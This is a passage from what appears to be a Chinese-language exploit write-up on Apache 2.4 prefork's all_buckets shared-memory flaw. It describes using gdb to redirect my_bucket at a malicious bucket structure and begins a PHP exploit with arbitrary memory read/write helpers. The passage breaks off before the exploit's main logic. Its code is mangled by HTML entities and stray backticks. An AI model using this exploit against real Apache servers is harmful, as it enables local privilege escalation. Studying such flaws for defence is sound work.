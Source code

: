 #### 问题

我在Apache 2.4.38 与 Apache 2.4.25中，测试发现all_buckets的地址与共享内存的地址之间的差值，远远不是一个4字节能表示的（bucket索引4字节）。所以在我的演示中，需要通过gdb来修改

```
my_bucket = &amp;all_buckets[bucket];//prefork.c:685
```

my_bucket的值，来模拟修改bucket，使其指向恶意的prefork_child_bucket结构。

#### PHP利用代码

```
&lt;?php

function read_mem_dword($addr)
`{`
    $ret = 0;
    for($j = 0;$j&lt;4;$j++)`{`
        $ret += read_mem($addr+$j) * pow(256,$j);
    `}`
    return $ret;
`}`

function read_mem_qword($addr)
`{`
    $ret = 0;
    for($j = 0;$j&lt;8;$j++)`{`
        $ret += read_mem($addr+$j) * pow(256,$j);
    `}`
    return $ret;
`}`

function read_mem_byte($addr)
`{`
    return read_mem($addr);
`}`

function write_mem_qword($addr,$data)
`{`
    for($j=0;$j&lt;8;$j++)`{`
        $b = (0xff&amp;(($data)&gt;&gt;($j*8)));
        write_mem($addr+$j,$b);
    `}`
`}`

function write_mem_dword($addr,$data)
`{`
    for($j=0;$j&lt;4;$j++)`{`
        $b = (0xff&amp;(($data)&gt;&gt;($j*8)));
        write_mem($addr+$j,$b);
    `}`
`}`

function write_mem_byte($addr,$data)
`{`
    write_mem($addr,$data);
`}`

/*
get_mem_region:

str为，maps文件中的特征字符串,用于搜索指定的内存区域

返回值为:
```